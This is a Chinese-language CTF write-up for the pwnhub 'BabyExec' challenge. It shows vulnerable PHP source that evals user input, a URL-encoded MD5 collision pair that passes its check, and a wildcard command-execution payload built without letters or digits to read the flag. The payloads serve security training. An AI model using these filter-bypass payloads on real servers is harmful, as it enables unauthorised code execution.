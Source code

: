 # pwnhub公开赛-【迎中秋】BabyExec



没有注册码，刷一个，首先分析源代码。

<pre class="wp-block-code"><code>&lt;?php
error_reporting(0);
highlight_file(__FILE__);
if ((string)$_GET&#91;'x'] !== (string)$_GET&#91;'y'] && md5($_GET&#91;'x']) === md5($_GET&#91;'y'])) { 
	if(!isset($_GET&#91;'shell'])){ 
    	echo "Attack me!";  } 
    else {   
    	$shell = $_GET&#91;'shell'];    
    	if(!preg_match("/&#91;a-zA-Z0-9_$@]+/",$shell)){      
    		eval($shell);    } 
    	else {      
    		die('No,No,No! Keep it up......');    
        }  }}
else {  die("No, way!");}
?></code></pre>
 `(string)$_GET['x'] !== (string)$_GET['y'] && md5($_GET['x']) === md5($_GET['y']` 需要md5强碰撞来绕过。参照之前代码审计的学习。构造payload如下：

```
x=%14%97%3DYd%EF%AC%9BF%FF%12%16%0AL%FA%1E9wi%C9r%9F%3D%AA%2C%F6x%B1%93.%10%A0%60%CB%BB%09%F2%0D.%29%CF%25%CB%FA%DBw4rH%D6%1B%8A%23%11%7C%D5%D8G%DE%8F%19%7C%8D%BEd%C0C%D6x%91%D3%02G7/%E47%0C%1B%FA%9E%A7%40%F9%12%3B%A0%20%C9%7B%F5%C4%D1%19Y%A2%B7F%17%E20%DCrS%CF%B0%C0%EFr~W%E6%0A%E8%93KS%1E%F7%F0%CA%9A%3Bf%2AQ%05%EC
&y=%14%97%3DYd%EF%AC%9BF%FF%12%16%0AL%FA%1E9wiIr%9F%3D%AA%2C%F6x%B1%93.%10%A0%60%CB%BB%09%F2%0D.%29%CF%25%CB%FA%DB%F74rH%D6%1B%8A%23%11%7C%D5%D8G%DE%0F%19%7C%8D%BEd%C0C%D6x%91%D3%02G7/%E47%0C%1B%FA%9E%A7%40y%12%3B%A0%20%C9%7B%F5%C4%D1%19Y%A2%B7F%17%E20%DCrS%CF%B0%C0%EFr%FEV%E6%0A%E8%93KS%1E%F7%F0%CA%9A%3B%E6%2AQ%05%EC
```


<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片-58.png" alt="" class="wp-image-3675" width="766" height="363" /> </figure> 

然后是无数字字母的命令执行，还绕过了`_$@`。

<pre class="wp-block-code"><code>采用通配符绕过美元符号（$）
shell=?>&lt;?=`/???/??? /????`?>
或者
shell=?%3E%3C?=`/???/???%20/????`?%3E</code></pre>

在底部发现flag<figure class="wp-block-image size-full is-resized">

<img loading="lazy" src="https://cdn.jsdelivr.net/gh/Hannibal0x/img/2021/09/图片-59.png" alt="" class="wp-image-3676" width="696" height="303" /> </figure>

